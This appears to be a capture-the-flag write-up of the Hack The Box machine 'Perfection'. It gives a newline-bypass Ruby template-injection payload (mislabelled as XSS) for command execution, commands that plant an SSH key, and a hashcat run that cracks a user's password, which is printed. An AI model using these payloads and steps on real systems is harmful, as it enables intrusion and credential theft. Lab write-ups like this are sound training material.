 ```yaml
---
date: 2025-02-16
categories: [CTF, HTB]
title: "HTB - Perfection"
tags: ['hashcat', 'nmap', 'privilege escalation', 'python', 'rce', 'xss', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Perfection - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Perfection

NMAP

![image1](../resources/6ce18aca78e24775aa1bf582dbea55f5.png)

- On port 80 we get:

![image2](../resources/15189e31d7634540ad15fe4e28cd3ee2.png)

- After trying multiple characters, everything seems to be blocked by an XSS filter


![image3](../resources/9c2f6c871019421b867d497bd70f0b10.png)


![image4](../resources/a6a051d0f4b0472883d9c24f76c03a37.png)

- But then I found the newline character **%0A**

![image5](../resources/b00bdeb602d0400d9630829a7730c405.png)

- Open the request in Burp

- Enter a value for category1 and add the **%0A** and then a 'malicious character'
And now it doesn't seem to block it

- Since this is using Ruby we need to construct Ruby code that gets executed within the \<script\> tags:
```javascript
<script>document.write("<p>Server Hostname: <%= `hostname` %></p>");</script>
```

Now URL encode it:

```js
document.write%28%22%3Cp%3EServer%20Hostname%3A%20%3C%25%3D%20%60ls%60%20%25%3E%3C%2Fp%3E%22%29%3B
```

The parameter category1 value will be:
```javascript
one%0A<script>document.write%28%22%3Cp%3EServer%20Hostname%3A%20%3C%25%3D%20%60hostname%60%20%25%3E%3C%2Fp%3E%22%29%3B</script>
```
You must have the **%0A** there


![image6](../resources/4efd277667134a488b10ac067cb598bf.png)

- And we get the hostname back
- XSS is successful

- If we query **id** - we can see that we are user susan

![image7](../resources/d5ed4ab09d284080aa0e4ab09469ff4b.png)

And that she has sudo rights as well


![image8](../resources/924483b9630e4edb8be055c4e6ba8106.png)

- After doing some enumeration on susan's home folder -we get a file with credentials
**/home/susan/Migration/pupilpath_credentials.db**


![image9](../resources/47f58567e5b3413ab0903c70f010def1.png)


![image10](../resources/d50ab97750a8408e837ab868cfb932c2.png)

- We can connect to the box by:
Create a SSH key pair

```bash
chmod 600 id_rsa

```
**<u>In Burp:</u>**

```bash
mkdir /home/susan/.ssh

touch /home/susan/.ssh/authorized_keys

echo "<id_rsa.pub>" > /home/susan/.ssh/authorized_keys

```

```bash
ssh susan@10.129.208.176 -i id_rsa
```

![image11](../resources/e388b7ede795481dabe510f0d22f2fa6.png)

- We find a credentials file and the type of SQL db used:

![image12](../resources/27c7c0a4016f43abb435df233a7c3c2f.png)


![image13](../resources/991240b7c69c47a0a216e211019b7d0a.png)

- This couldn't be cracked using rockyou.txt

- Further enumeration revealed the file:
**/var/mail/susan**


![image14](../resources/2880f75162a843f4a3d72a66b89c3d15.png)

- Create a python script to generate a wordlist
I didn't do the whole range in one go, as the file would have been enormous:


![image15](../resources/ffea34060fa147fa8bb83c1e24f46235.png)


![image16](../resources/e430581d76bb427c9a87ab67cb99378d.png)

- After every generated list I tried it with hashcat:

```bash
hashcat -m 1400 -a 0 hash list

```

![image17](../resources/6c426031790b43fda2a98789fcd6066a.png)

**susan_nasus_413759210**

- And as susan has sudo rights:

![image18](../resources/2ef192ae37bf431f9d2aa08c69c6c5d8.png)
